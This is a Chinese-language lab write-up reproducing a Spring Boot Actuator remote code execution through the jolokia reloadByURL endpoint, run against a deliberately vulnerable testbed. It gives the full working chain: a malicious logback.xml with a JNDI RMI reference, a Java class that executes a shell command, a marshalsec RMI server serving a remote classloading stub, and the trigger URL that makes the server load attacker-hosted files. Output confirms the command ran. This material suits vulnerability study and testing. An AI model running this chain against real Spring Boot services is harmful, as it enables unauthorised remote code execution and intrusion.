




# SpringBoot_Actuator_RCE 漏洞复现


## 0x01 环境搭建

`git clone https://github.com/veracode-research/actuator-testbed`

启动

```
mvn install
或
mvn spring-boot:run
```

通过编译运行,发现监听IP 地址为 `127.0.0.1`,只能本机访问
百度查找,修改为 `0.0.0.0` 就好了

查找关键文件

`grep -r 'server.address' -n ./`

```
./src/main/resources/application.properties:2:server.address=127.0.0.1
./target/classes/application.properties:2:server.address=127.0.0.1
```
改为

```
server.port=8090
server.address=0.0.0.0

# vulnerable configuration set 0: spring boot 1.0 - 1.4
# all spring boot versions 1.0 - 1.4 expose actuators by default without any parameters
# no configuration required to expose them

# safe configuration set 0: spring boot 1.0 - 1.4
#management.security.enabled=true

# vulnerable configuration set 1: spring boot 1.5+
# spring boot 1.5+ requires management.security.enabled=false to expose sensitive actuators
#management.security.enabled=false

# safe configuration set 1: spring boot 1.5+
# when 'management.security.enabled=false' but all sensitive actuators explicitly disabled
#management.security.enabled=false

# vulnerable configuration set 2: spring boot 2+
#management.endpoints.web.exposure.include=*
```


## 0x02 重启启动

`mvn spring-boot:run`

或

```
/opt/jdk1.8.0_60//bin/java -classpath /opt/apache-maven-3.6.2/boot/plexus-classworlds-2.6.0.jar -Dclassworlds.conf=/opt/apache-maven-3.6.2/bin/m2.conf -Dmaven.home=/opt/apache-maven-3.6.2 -Dlibrary.jansi.path=/opt/apache-maven-3.6.2/lib/jansi-native -Dmaven.multiModuleProjectDirectory=/root/actuator/actuator-testbed org.codehaus.plexus.classworlds.launcher.Launcher spring-boot:run

```

稍等片刻

```
root@kali:~/actuator/actuator-testbed# netstat -ntpl |grep 8090
tcp6       0      0 :::8090                 :::*                    LISTEN      33666/java
root@kali:~/actuator/actuator-testbed#
```
http://10.20.24.191:8090/


http://10.20.24.191:8090/jolokia/list 


中 reloadByURL 可以加载远程 url xml 文件


```
"ch.qos.logback.classic": {
"Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator": {
"op": {
"reloadByURL": {
"args": [
{
"name": "p1",
"type": "java.net.URL",
"desc": ""
}
],
"ret": "void",
"desc": "Operation exposed for management"
}
```

## 0x03 http 服务存放logback.xml,ExportObject.class


logback.xml 文件内容



```
<configuration>
  <insertFromJNDI env-entry-name="rmi://10.20.24.191:1099/Exploit" as="appName" />
</configuration>
```

ExportObject.java

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class ExportObject {
   public ExportObject() throws Exception {
      Process var1 = Runtime.getRuntime().exec("touch /tmp/jas502n");
      InputStream var2 = var1.getInputStream();
      BufferedReader var3 = new BufferedReader(new InputStreamReader(var2));

      String var4;
      while((var4 = var3.readLine()) != null) {
         System.out.println(var4);
      }

      var1.waitFor();
      var2.close();
      var3.close();
      var1.destroy();
   }

   public static void main(String[] var0) throws Exception {
   }
}

```
## 0x04 RCE触发

监听 rmi 端口

```
root@kali:~/ldap_rmi# cat rmi.sh
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://10.20.24.191:8000/#ExportObject


root@kali:~/ldap_rmi# ./rmi.sh
* Opening JRMP listener on 1099
Have connection from /10.20.24.191:43878
Reading message...
Is RMI.lookup call for ExportObject 2
Sending remote classloading stub targeting http://10.20.24.191:8000/ExportObject.class
Closing connection


```

浏览器访问加载远程logback.xml文件进行解析,

服务器访问恶意jndi 地址,导致恶意字节码代码执行

`http://10.20.24.191:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/10.20.24.191:8000!/logback.xml`


## 0x05 命令执行成功



```
root@kali:/var/www/html# ls /tmp/j*
/tmp/jas502n
root@kali:/var/www/html#
```

